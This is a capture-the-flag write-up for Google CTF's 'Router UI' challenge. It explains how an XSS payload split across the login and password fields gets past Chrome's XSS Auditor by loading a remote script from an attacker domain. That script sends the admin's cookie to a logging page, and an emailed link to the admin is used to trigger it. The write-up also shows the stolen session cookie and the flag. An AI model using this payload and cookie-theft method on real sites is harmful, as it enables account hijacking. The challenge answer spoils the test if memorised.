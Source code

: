 # Router UI

> https://ctftime.org/writeup/10310

It was really easy to find out that we can inject XSS payload in username and password, however it was much harder to bypass XSS Auditor.
I tried a lot of payloads (either my own or copied from the Internet), but it didn't work.
There was only one strange thing about this website. Our username and password were separated by two slashes.
It looks as if it was part of url scheme. If type first half of our payload as nickname and the second part as the password hopefully it will work.
```
login:<script src=https:
password:[YOURDOMAIN]/exploit.js></script>
```
The above payload finally executed JS in chrome (I tried also with SVG and other tags, but I had some problems with them).
`exploit.js` simply redirects the browser to our website and passes document.cookie as query string.
`log.php` function saves all request uris to file.
We can only login via POST, so we need to create the website which will automaticly submit the form [website.html](website.html).
We have to send link to this website via email to wintermuted. He'll almost immediately visit it and we'll get his cookie.
Please note that you'll need HTTPS server for this challenge (you can use let's encrypt certificate). I tried with plain HTTP, but browser refused to execute it.
When we open log.txt on our server (hopefully) we'll see:
```
/log.php?flag=Try%20the%20session%20cookie;%20session=Avaev8thDieM6Quauoh2TuDeaez9Weja
```
Set this cookie in your browser and visit https://router-ui.web.ctfcompetition.com/.
In the source you can find the flag.

Flag: `CTF{Kao4pheitot7Ahmu}`

This is written by BOAKGP@github
